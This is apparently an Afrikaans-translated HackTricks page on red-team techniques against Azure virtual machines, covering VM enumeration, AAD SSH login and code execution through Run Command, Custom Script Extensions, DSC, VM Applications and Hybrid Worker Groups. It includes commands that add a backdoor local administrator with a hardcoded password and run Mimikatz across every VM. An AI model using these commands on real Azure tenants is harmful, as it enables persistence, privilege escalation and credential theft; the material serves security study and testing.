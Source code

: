 # Az - Virtuele Masjiene & Netwerk

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese inligting

[Uit die dokumentasie:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure virtuele masjiene is een van verskeie tipes [op aanvraag, skaalbare rekenaarbronne](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) wat Azure bied. Tipies kies jy 'n virtuele masjien wanneer jy meer beheer oor die rekenaaromgewing nodig het as wat die ander keuses bied. Hierdie artikel gee jou inligting oor wat jy moet oorweeg voordat jy 'n virtuele masjien skep, hoe jy dit skep, en hoe jy dit bestuur.

## Azure Netwerk Inligting

Azure netwerke bevat **verskillende entiteite en maniere om dit te konfigureer.** Jy kan 'n kort **beskrywings,** **voorbeelde** en **enumerasie** opdragte van die verskillende Azure netwerk entiteite vind in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** bied 'n veilige, volledig bestuurde RDP (Remote Desktop Protocol) en SSH (Secure Shell) toegang oplossing oor SSL deur die Azure portaal. Dit is geïntegreer binne 'n Azure Virtuele Netwerk, wat RDP en SSH konneksie na VM's met privaat IP's moontlik maak, wat die behoefte aan publieke IP's vermy. Dit maak dit 'n veiliger, meer gerieflike alternatief vir tradisionele metodes wat publieke IP toewysings en NSG reël konfigurasies vir VM toegang behels. Ontwikkelaars en IT-personeel kan veilig toegang tot VM's verkry vanaf die Azure portaal met hul webblaaiers, wat die proses vir ontwikkeling en toetsomgewings stroomlyn.

Om al die Azure Bastion Gashere in jou subskripsie te lys, kan jy die volgende opdrag gebruik:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Opname
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Voer opdragte in 'n VM uit**

### **AAD Teken in in VM**

Dit is moontlik om toegang te verleen aan gebruikers wat via AzureAD geverifieer is. Byvoorbeeld, om toegang te verkry tot 'n **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (dit is belangrik om die **e-pos** met die azurecorp te gebruik wanneer jy probeer om in te teken) kan jy 'n fout soos die volgende kry:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Volg net **daardie instruksies** deur na [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) te gaan en die kode aan te dui, gebruik die e-pos en wagwoord as geloofsbriewe en jy sal in staat wees om via SSH te verbind (as daardie gebruiker genoegsame regte het om dit te doen: `Virtual Machine Administrator Login` of `Virtual Machine User Login` rol).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Voer Aangepaste Skrip Uitbreiding Uit**

Azure virtuele masjiene (VM) uitbreidings is **klein toepassings** wat post-implementasie konfigurasie en outomatisering **take** op **Azure VM's** bied. Byvoorbeeld, as 'n virtuele masjien sagteware-installasie, antivirusbeskerming of die vermoë benodig om 'n skrip binne-in dit uit te voer, kan jy 'n VM-uitbreiding gebruik.

Daarom, as jy toegang het om dit te skryf, kan jy arbitrêre kode uitvoer:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) is 'n PowerShell-gereedskap soortgelyk aan Ansible, wat gebruik word om 'n gasheer deur kode op te stel. DSC integreer met Azure, wat die opgelaai van spesifieke konfigurasie-lêers moontlik maak. Hierdie lêers moet aan 'n streng sintaksis voldoen. Opmerklik is dat die DSC-uitbreiding in Azure opdragte kan uitvoer vanaf lêers wat aan sekere opmaakvereistes voldoen, selfs al is die sintaksis nie korrek volgens DSC-standaarde nie, soos in die verskafde figuur getoon.

Die uitvoering van hierdie opdragte word gefasiliteer deur die [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) funksie in Az PowerShell. Die vereistes sluit 'n **.PS1** lêer met 'n gedefinieerde funksie in en die lêer moet in 'n **.zip** lêer gecomprimeer word. Alhoewel die sintaksis dalk nie akkuraat is vir DSC nie, sal die kode steeds uitgevoer word. Die uitbreiding sal egter die uitvoeringsstatus as "mislukking" merk, en geen uitvoer van die opdrag sal sigbaar wees nie weens die status wat deur die mislukkingboodskap oorgeskryf word.

### VM Application Definitions

VM Application Definitions stel die herhaalbare ontplooiing van geverifieerde toepassings op 'n Azure VM in staat. Hierdie hulpbron ondersteun die ontplooiing en opdatering van toepassings oor VMs. Om dit op te stel, is verskeie stappe nodig, wat opdragte soos **`New-AzGalleryApplication`** en **`New-AzGalleryApplicationVersion`** in Az PowerShell insluit.

Die uitvoering van toepassings of opdragte deur hierdie metode behels die **"VMAppExtension"**, wat outomaties geïnstalleer word wanneer 'n toepassing op 'n VM toegepas word. Die uitbreiding haal die lêer van die gespesifiseerde URI en noem dit presies soos die toepassing, sonder 'n uitbreiding. Om die lêer korrek uit te voer, moet die "ManageActions" veld in die REST API-oproep geconfigureer word om die lêer met die toepaslike uitbreiding te hernoem. Die opstelling van hierdie metode, eens voltooi, sal die struktuur vertoon soos in die verskafde figuur.

Hierdie metode van uitvoering is egter relatief stadig, wat ongeveer 3-4 minute neem om 'n toepassing of opdrag uit te voer. Die lêers wat met hierdie proses verband hou, word in spesifieke gidse gestoor (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` vir die toepassing kopie en `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` vir die uitvoeringsstatus).

Albei tegnieke bied unieke maniere om opdragte uit te voer en toepassings in Azure-omgewings te ontplooi, elk met sy eie stel vereistes, stappe en oorwegings.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) is 'n kenmerk in Azure wat Runbooks, geconfigureer in 'n Automatiseringsrekening, toelaat om op 'n Azure Virtuele Masjien (VM) wat deel uitmaak van die aangewese HWG, uitgevoer te word. Hierdie uitvoering word gefasiliteer deur 'n uitbreiding wat op die VM geïnstalleer is, wat die Runbook-kode op die VM ontplooi. 'n Belangrike aspek van hierdie proses is dat die werklike akrediteer nie 'n faktor in uitvoering is nie omdat die kode met verhoogde voorregte loop, spesifiek as **SYSTEM** of root, soos in die verskafde figuur geïllustreer.

'n Belangrike detail vir diegene wat Windows 10 VMs gebruik, is die noodsaaklikheid om die PowerShell-weergawe vir die Runbook spesifiek aan te dui. Dit moet ingestel word om as PowerShell Weergawe 5.1 te loop in plaas van 7.1. Hierdie vereiste spruit voort uit die feit dat PowerShell 7.1 nie standaard op hierdie VMs geïnstalleer is nie, wat lei tot 'n mislukking in skripuitvoering as weergawe 7.1 gespesifiseer word.

Hierdie kenmerk van Azure bied 'n robuuste metode vir die outomatisering en bestuur van take oor hibriede omgewings, wat sentraliseerde bestuur en uitvoering van take op Azure VMs moontlik maak.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

